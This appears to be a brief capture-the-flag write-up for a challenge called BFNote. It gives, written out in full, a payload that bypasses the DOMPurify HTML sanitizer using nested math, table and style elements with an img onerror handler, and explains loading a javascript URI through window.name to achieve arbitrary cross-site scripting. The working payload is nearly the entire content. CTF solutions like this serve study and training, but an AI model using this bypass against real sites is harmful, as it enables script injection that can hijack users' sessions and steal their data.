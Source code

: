 # BFNote

- DOMPurify Bypass
 `<math><mtext><table><mglyph><style><img src=x onerror=location=window.name deet=1>`
- Set payload in window.name with javascript uri to get arbitrary XSS
- Solv-ish script in [solve.py](solve.py)
